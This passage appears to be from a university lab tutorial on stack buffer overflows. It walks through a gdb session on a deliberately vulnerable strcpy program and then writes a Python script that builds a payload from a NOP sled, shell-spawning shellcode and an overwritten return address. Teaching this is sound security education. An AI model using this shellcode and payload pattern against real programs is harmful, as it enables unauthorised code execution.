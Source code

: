 ```bash

┌─[khaefner@cs456-010]─[~/Development/buffer_overflow]
└──╼ $gdb ./vuln 
Reading symbols from ./vuln...
(gdb) list main
1	#include <stdio.h>
2	#include <string.h>
3	
4	int main (int argc, char** argv) {
5	  char buffer [500];
6	  strcpy(buffer, argv[1]);
7	  return 0;
8	}
(gdb) break 7
Breakpoint 1 at 0x11bb: file vuln.c, line 7.
(gdb) run $(python3 exploit-test.py)
Starting program: /home/khaefner/Development/buffer_overflow/vuln $(python3 exploit-test.py)
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Breakpoint 1, main (argc=0, argv=0xffffd134) at vuln.c:7
7	  return 0;
(gdb) print &buffer
$1 = (char (*)[500]) 0xffffce80
(gdb) x/40xb 0xffffce80
0xffffce80:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffce88:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffce90:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffce98:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffcea0:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
---
```

---
`Action:`  Take a screen shot of your Terminal output from the above commands
---


Let's now pick any memory address within the `x90` NOP sled area before
the shellcode to be our return address. From the screenshot above we can
pick `0xffffce90` for example.


Since Intel CPUs are [little
endian](https://en.wikipedia.org/wiki/Endianness), we need to reverse the address for our payload.

Note on Little-Endian: Intel CPUs store multi-byte values with the least-significant byte first. This means you must write your address backward in the exploit.
If GDB shows the address is 0xffffce90, you must write it as b"\x90\xce\xff\xff".

Our script becomes:

```bash
import sys

shellcode = b"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
eip = b"\x90\xce\xff\xff" * 10
nop = b"\x90" * 447
buff = nop + shellcode + eip

sys.stdout.buffer.write(buff) 
```

